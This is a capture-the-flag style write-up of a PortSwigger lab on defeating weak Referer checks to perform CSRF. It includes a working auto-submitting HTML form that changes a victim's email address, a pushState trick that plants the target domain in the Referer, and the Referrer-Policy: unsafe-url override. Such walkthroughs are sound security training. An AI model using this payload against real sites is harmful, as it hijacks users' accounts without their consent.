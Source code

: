 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0f956d77-ffc7-464c-ada5-9e501a0ec626)


## Overview :

Validation of Referer can be circumvented

Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application validates that the domain in the Referer starts with the expected value, then the attacker can place this as a subdomain of their own domain:
http://vulnerable-website.com.attacker-website.com/csrf-attack

Likewise, if the application simply validates that the Referer contains its own domain name, then the attacker can place the required value elsewhere in the URL:
http://attacker-website.com/csrf-attack?vulnerable-website.com

>  Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to
>  reduce the risk of sensitive data being leaked in this way, many browsers now strip the query string from the Referer header by default.
>  
>  You can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set (n**ote that Referrer is spelled correctly in this case,
>  just to make sure you're paying attention!**). This ensures that the full URL will be sent, including the query string. 

## Solution :

Log in as wiener using the credentials - `wiener:peter`

We get this page to update email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0120a0f3-69b6-40fa-a27e-93d8960a0944)

When we click update email, browser sends a request like this,

```http
POST /my-account/change-email HTTP/2
Host: 0a1c0080040de829801c712900d600a9.web-security-academy.net
Cookie: session=Axf9Yo6ZjuM9B0wD9vACJtH46iM0ASK1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0a1c0080040de829801c712900d600a9.web-security-academy.net
Referer: https://0a1c0080040de829801c712900d600a9.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40test.com
```
Here the application verifies the request by comparing the `Host:` and `Referer` header.

Our goal is to bypass this referrer header validation . We need to be able to somehow place the attacker domain ie.(exploit server) in the referrer header 

- Exploit server domain - **exploit-0acd00e30437e84180cd7051010b004e.exploit-server.net**


#### Check which portion of the referer header is the application validating


Lets us give the attacker domain in the referer header by giving the attacker.com as the domain name and the original domain as a directory portion.


```http
Referer: https://attacker-domain.com/?0a1c0080040de829801c712900d600a9.web-security-academy.net/my-account
```

We get a `301 Redirect`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/707ed98c-6432-44eb-bf19-214bd3aac9e9)

> This means the application takes this referer header and instead of validating the entire referer header , it just checks if the domain name in HOST header is contained in the referer header.
> This is done with the help of some regex matching (**expected-domain**) .


**Generate POC -**

Replace the attacker domain with exploit server domain. Send the request to POC generator,

> Add the `Auto-submit script`

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?0a8e002d049ccb2281e49d8f00ae00ed.web-security-academy.net')</script>
    <form action="https://0a8e002d049ccb2281e49d8f00ae00ed.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="user&#64;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Explanation of PUSHSTATE -**

> `history.pushState('', '', '/?0a8e002d049ccb2281e49d8f00ae00ed.web-security-academy.net')`
> 1. This line calls the **pushState() method** on the history object, which is part of the browser's window object. It **allows you to manipulate the browser's history stack, including the URL**.
> 2. The pushState() method takes three parameters: **state, title, and URL**.
>
> In this case, the first parameter (state) is an empty string, which means **there is no specific state associated with the URL change**.
> The second parameter (title) is also an empty string, which means the **document title remains unchanged**.
> The third parameter (URL) is set to /?0a8e002d049ccb2281e49d8f00ae00ed.web-security-academy.net.
>
> This **modifies the URL of the current webpage to /?0a8e002d049ccb2281e49d8f00ae00ed.web-security-academy.net without triggering a page reload**.

If we send this POC to victim, the lab is not solved. Reason being that  modern browsers now strip the query string from the Referer header by default.

We can override this by providing `Referrer-Policy: unsafe-url` header.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5371d3da-4152-4027-b71f-40368e4c1235)

Now deliver the exploit to victim to solve the lab.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cd8488ee-3824-43a9-8834-b8a1a8231f43)



















